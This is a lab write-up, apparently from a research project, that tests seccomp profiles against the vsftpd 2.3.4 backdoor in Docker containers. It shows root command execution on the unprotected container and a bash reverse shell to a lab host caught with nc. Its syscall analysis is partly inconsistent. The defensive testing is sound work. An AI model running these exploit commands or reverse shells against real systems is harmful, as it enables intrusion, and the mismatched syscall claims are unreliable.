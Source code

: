 ## vsftpd – chestnut

### Preparation

_For the container with seccomp, we execute the file `/tmp/script.sh` which is extracting the system calls from the binary `vsftpd`, creating a seccomp-profile based on these detected system calls and subsequently applying the profile on the binary. Afterwards, the binary is automatically run._

`docker exec -it vsftpd-chestnut-seccomp-container bash -c "source /Chestnut/Binalyzer/venv/bin/activate && /tmp/script.sh"  `

_For the container without seccomp, we just have to start it with following command:_

`docker exec -it vsftpd-chestnut-normal-container /app/vsftpd-2.3.4-infected/vsftpd /app/vsftpd-2.3.4-infected/vsftpd.conf`

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES
4f16987c58e0 vsftpd-chestnut-seccomp "/bin/bash" 10 minutes ago Up 10 minutes 0.0.0.0:2104->21/tcp, [::]:2104->21/tcp, 0.0.0.0:6204->6200/tcp, [::]:6204->6200/tcp vsftpd-chestnut-seccomp-container
66fa1ece7f08 vsftpd-chestnut-normal "/bin/bash" 10 minutes ago Up 10 minutes 0.0.0.0:2103->21/tcp, [::]:2103->21/tcp, 0.0.0.0:6203->6200/tcp, [::]:6203->6200/tcp vsftpd-chestnut-normal-container

❯ docker inspect vsftpd-chestnut-seccomp-container | grep '"IPAddress":'
"IPAddress": "192.168.224.2",
❯ docker inspect vsftpd-chestnut-normal-container | grep '"IPAddress":'
"IPAddress": "192.168.224.3",

```

_Seccomp_:
The attack on the container with the applied seccomp profile on the binary fails:

```
❯ ./attackSubject.sh 192.168.224.2 whoami
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 id
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 ls
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 pwd
read(net): Connection reset by peer
[-] no response!
```

_Normal_
The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
❯ ./attackSubject.sh 192.168.224.3 "id"
[+] worked: uid=0(root) gid=0(root) groups=0(root)
❯ ./attackSubject.sh 192.168.224.3 "pwd"
[+] worked: /app/vsftpd-2.3.4-infected
❯ ./attackSubject.sh 192.168.224.3 "ls"
[+] worked: AUDIT
BENCHMARKS
❯ ./attackSubject.sh 192.168.224.3 "whoami"
[+] worked: root
❯ ./attackSubject.sh 192.168.224.3 "bash -c 'bash -i >& /dev/tcp/192.168.224.1/4444 0>&1'"
[-] no response!

❯ nc -lvnp 4444 # note, this is on another terminal
Connection from 192.168.224.3:37400
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
root@66fa1ece7f08:/app/vsftpd-2.3.4-infected# id
id
uid=0(root) gid=0(root) groups=0(root)

```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

TODO: PIDS AUSTAUSCHEN!!!!!!!!!!!!
_strace output:_
When starting the container with the command `strace -f /tool/Chestnut/ChestnutPatcher/rewrite.sh /app/vsftpd-2.3.4-infected/vsftpd /app/vsftpd-2.3.4-infected/vsftpd.conf` we are able to see that just before the process with the pid `299` was killed with the signal `SIGSYS`, the system call `set_tid_address` was executed.

```
[{WIFSIGNALED(s) && WTERMSIG(s) == SIGSYS}], 0, NULL) = 145
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x72e15fa61f10}, {sa_handler=0x5c804dc54160, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x72e15fa61f10}, 8) = 0
fstat(2, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 1), ...}) = 0
write(2, "/Chestnut/ChestnutPatcher/rewrit"..., 116/Chestnut/ChestnutPatcher/rewrite.sh: line 6:   145 Bad system call         LD_LIBRARY_PATH=. "${BIN}_patched" "$@"
) = 116
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=145, si_uid=0, si_status=SIGSYS, si_utime=0, si_stime=0} ---
wait4(-1, 0x7ffcaeb35910, WNOHANG, NULL) = -1 ECHILD (No child processes)
rt_sigreturn({mask=[]})                 = 0
read(255, "", 107)                      = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
exit_group(159)                         = ?
+++ exited with 159 +++
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscalls with the number `31` and `61` were the reason for the `SIGSYS` signal.

```
----
# ls command
time->Mon Apr 28 15:14:41 2025
type=SECCOMP msg=audit(1745846081.780:2415): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=69785 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=104 compat=0 ip=0x707dcf3a2857 code=0x0
----
time->Mon Apr 28 15:14:41 2025
type=SECCOMP msg=audit(1745846081.876:2421): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=69675 comm="vsftpd_patched" exe="/app/vsftpd-2.3.4-infected/vsftpd_patched" sig=31 arch=c000003e syscall=61 compat=0 ip=0x7af4847b2337 code=0x0


```

We verify that the system call number `218` maps to `set_tid_address` with the `ausyscall` tool:

```
❯ ausyscall --dump | grep 31
31	shmctl

❯ ausyscall --dump | grep 61
61	wait4
```

The last thing we check is, if the system call numbers `31` and `61` was in the applied seccomp profile. The file `policy__app_vsftpd-2.3.4-infected_vsftpd.json` shows no presence:

```json
{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 19, 20, 21, 23, 28,
    33, 37, 38, 39, 41, 42, 43, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56,
    59, 60, 62, 63, 72, 77, 78, 79, 80, 82, 83, 84, 87, 89, 90, 91, 93, 95, 96,
    102, 105, 106, 107, 108, 111, 112, 113, 114, 116, 132, 157, 158, 161, 164,
    186, 201, 202, 229, 231, 234, 257, 262, 302
  ]
}
```

## Appendix

The following shows the time needed to extract the system calls from 3 runs:

```
docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m26.930s
user	0m25.725s
sys	0m1.084s

docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m28.045s
user	0m26.789s
sys	0m1.109s

docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m27.484s
user	0m26.194s
sys	0m1.140s
```
